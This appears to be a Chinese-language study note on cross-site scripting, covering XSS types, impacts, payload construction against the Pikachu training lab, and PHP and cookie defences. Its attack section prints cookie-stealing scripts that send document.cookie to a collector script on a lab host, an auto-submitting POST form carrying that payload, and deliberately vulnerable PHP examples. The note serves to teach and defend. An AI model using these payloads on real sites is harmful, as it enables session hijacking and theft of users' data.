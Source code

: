 - [XSS攻击如何产生？](#xss攻击如何产生)
- [主要类型以及原理？](#主要类型以及原理)
- [XSS危害](#xss危害)
- [利用XSS进行攻击活动](#利用xss进行攻击活动)
- [如何防护](#如何防护)


## XSS攻击如何产生？

黑客在你的浏览器中插入一段恶意 JavaScript 脚本，窃取你的隐私信息、冒充你的身份进行操作。这就是 XSS 攻击(Cross-Site Scripting，跨站脚本攻击)

因为浏览器无法区分脚本是被恶意注入的还是正常的内容，它都会执行，况且 HTML 非常灵活，可以在任何时候对它进行修改。

XSS漏洞的核心就是，网页执行了构造的恶意脚本。至于如何让网页执行，就是XSS漏洞的挖掘点。网页的内容一般都是由后端服务器发送过来，一般来说后端服务器接收前端请求，执行一些操作，再返回数据到前端进行展示。

返回的数据有两种来源：

第一种：前端发送过来的，后端进行了一些操作，再发回前端（可能增加、减少数据）
--》这种情况就有可能产生**反射型XSS**

第二种：与数据库交互，从数据库中读取数据到前端显示。
--》这种情况就有可能产生**存储型XSS**（前提是已经将恶意payload写入数据库）

因此对于XSS漏洞的防护就可以从两个角度进行：
- 对输入进行过滤（）
- 对输出进行转义

## 主要类型以及原理？
- 反射型
  - 顾名思义，恶意 JavaScript 脚本属于用户发送给网站请求中的一部分，随后网站又将这部分返回给用户，恶意脚本在页面中被执行。一般发生在前后端一体的应用中，服务端逻辑会改变最终的网页代码。
    eg: ?input=<script>alert(1)</script>
  - <img src="images/image-20210304212336102.png" alt="image-20210304212336102" width="50%;" />

- DOM型
  - 目前更流行前后端分离的项目，反射型 XSS 无用武之地。 但这种攻击不需要经过服务器，我们知道，网页本身的 JavaScript 也是可以改变 HTML 的，黑客正是利用这一点来实现插入恶意脚本。
  - <img src="images/image-20210304212357239.png" alt="image-20210304212357239" width="50%;" />


- 存储型
  - 又叫持久型 XSS，顾名思义，黑客将恶意 JavaScript 脚本长期保存在服务端数据库中，用户一旦访问相关页面数据，恶意脚本就会被执行。常见于搜索、微博、社区贴吧评论等。
  - <img src="images/image-20210304212425402.png" alt="image-20210304212425402" width="50%;" />


## XSS危害

！！因为XSS借助于构造JS脚本实现，所以任何使用JS可以实现的事情都可以通过XSS实现。 
- 通过 document.cookie盗取 cookie中的信息
- 使用 js或 css破坏页面正常的结构与样式
- 流量劫持（通过访问某段具有 window.location.href 定位到其他页面）
- dos攻击：利用合理的客户端请求来占用过多的服务器资源，从而使合法用户无法得到服务器响应。并且通过携带过程的 cookie信息可以使服务端返回400开头的状态码，从而拒绝合理的请求服务。
- 利用 iframe、frame、XMLHttpRequest或上述 Flash等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作，并且攻击者还可以利用 iframe，frame进一步的进行 CSRF 攻击。
- 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力。

## 利用XSS进行攻击活动
攻击payload的制作分两种类型：
- **Get型 ** 
  
  构造恶意链接中带有参数

>eg:`http://**.**.**/pikachu/vul/xss/xss_reflected_get.php?message=test&submit=submit`
>
>message的内容会在页面上显示，所以可以在message参数值中构造js语句执行一些恶意操作
>
>eg:`<script>document.location = 'http://**.**.**/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>`   盗取cookie值


- **Post型 ** 
需要构造一个页面，页面中包含表单，提交表单数据形成post请求

页面中包含一个表单，表单的请求地址是存在XSS漏洞的页面地址。
post提交的内容是恶意内容，value值。
表单请求执行结果返回到xss_reflected_post.php，触发执行value中的内容。

```html
<html> 
  <head> 
    <script>window.onload = function() {  document.getElementById("postsubmit").click();}</script> 
  </head> 
  <body> 
    <form method="post" action="http://10.201.164.32/pikachu/vul/xss/xsspost/xss_reflected_post.php">     
      <input id="xssr_in" type="text" name="message" value="<script>document.location = 'http://10.201.164.32/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;  </script>"/>     
      <input id="postsubmit" type="submit" name="submit" value="submit" /> 
    </form> 
  </body> 
</html>
```



## 如何防护
根据恶意内容在浏览器上显示的位置不同划分：

1. html普通标签位置输出
   
   将内容输出到`<div> <p> `等html中常见的标签中，当作标签的内容显示。
  -->直接使用htmlspecialchars实体编码即可
   eg:
      ```php
      $div=$_GET['div'];
      //解决方法：
      // $div .= htmlspecialchars($_GET['div'],ENT_QUOTES);  
      <div>
        <?php echo $div;?>
      <div>
      ```
   
   

2. 普通标签的普通属性
   
   如输出到input的value属性值
  -->直接使用htmlspecialchars实体编码即可
   ```php
    $msg .= $_GET['msg'];
      //    防范措施:html实体编码
      //    $msg .= htmlspecialchars($_GET['msg'],ENT_QUOTES);
    <form>
      <input name="msg" value="<?php echo $msg;?>">
    </form>
   ```

3. 输出在事件属性中

  输出位置在标签的事件属性中，如onmouseover
  -->
  ```php

    <form>
      <input type="button" value="submit" onmouseover="init('<?php echo $in;?>')">
    </form>
  ```

4. 输出在特殊的属性中

  如a标签的href属性
  --> 按输入的内容的合法格式进行正则匹配，检查是否是url，再进行html实体编码

  a标签中href属性支持javascript:伪代码执行
  
  ```php
  function check_url($url){
    if (preg_match('/\Ahttp:/',$url) || preg_match('/\Ahttps:/',$url) || preg_match('#\A/#',$url)){
        return true;
    }else{
        return false;
    }
  }
  if (isset($_GET['url'])){
    $url .= htmlspecialchars($_GET['url'],ENT_QUOTES);
  }
  
  <a href="<?php echo $url;?>">www.google.com</a>

  ```

5. 输出点在js中

  输出内容在一段js代码中
  -->转义函数:所有的字符串,除字母,数字,.号,-号外的其他全部进行转义为unicode(utf-8是unicode的一种实现),unicode可以在js中可以被正常解析使用,所有的转义操作在后台进行后输出到前台。
    注意：js本身不解析html实体字符
  
  ```php
  //转换字符的编码
  function unicode_escape($str){
      $u16 = mb_convert_encoding($str[0],'UTF-16');
      return preg_replace('/[0-9a-f]{4}/','\u$0',bin2hex($u16));
  }
  //将字母和数字还有.-排除后的剩下的字符全部\uXXXX的unicode的形式进行转义
  //搜索一个正则,并使用指定的回调函数进行callback
  function escape_js_string($input){
      return preg_replace_callback('/[^-\.0-9a-zA-Z]+/u','unicode_escape',$input);
  }

  <script type="text/javascript">
    function init() {}
    // 005-输出点在js中,构造闭合，即可，payload:xx';alert(1);//
    var echoxy = '<?php echo $name;?>';
    //    alert(echoxy);
    if (echoxy === '>中国'){
        alert("比较成功,你的编码杠杠的~");

    }
  </script>
  
  ```


总体思路:对用户输入进行过滤,对输出进行编码;

1. 对用户输入进行XSS防御方式有2种:
   
   基于黑名单的过滤和基于白名单的过滤. 而白名单相对来说更安全;
   
   黑名单:只规定哪些数据不能被输入,很可能被绕过;比如对 '  "   <> 等进行过滤
   
   白名单:只定义哪些数据正常才能被提交;

2. 设置http-only参数为true,这样JS就不能读取cookie信息了;(特殊常见可能被绕过)
   
   Cookie使用过程：
   
    Step1：浏览器向服务器发起请求，这时没有Cookie。
   
    Step2：服务器返回时发送Set-Cookie头，向客户端浏览器写入Cookie。
   
    Step3：在该Cookie到期前，浏览器访问该域下的所有页面，都将发送该Cookie。
    HTTPOnly是在Set-Cookie时被标记的。服务器可能会设置多个Cookie（多个key-value对），而HttpOnly可以有选择性地加在任何一个Cookie值上。在某些时候，应用可能需要JavaScript访问某几项Cookie，这种Cookie可以不设置HttpOnly标记；而仅把HttpOnly标记给用于认证的关键Cookie。

3. 使用一些函数进行防御

  * htmlspecialchars()：将输入内容转换成HTML实体
  	* &--》&amp 

  	* “  --》&quot

  	* ’  --》&#039

  	* < --》&lt

  	* \> --》&gt

  * htmlentities()：把特殊字符转换成HTML实体
    * '  "  &
  * strip_tags()：自动去掉字符中的标签
    * eg:<script>alert(document.cookie);</script>--->alert(document.cookie)

   使用这种方式，链接跳转也有可能出现XSS

   即标签的href、src等属性中，包含javascript:等可执行代码

   另外，style的属性中：
   background-image:url("javascript:....")

   expression(js代码)
   这两种也有可能导致xss，但目前已被浏览器修复。
   eg：<a href="javascript:alert(&#x27;XSS;&#x27)"></a>(单引号被html编码)

   当用户点击该链接时仍会弹出xss

   需要检验其内容，禁止以javascript:开头的链接或者其他非法的scheme

4. 不要随意打开一些来历不明的网站或链接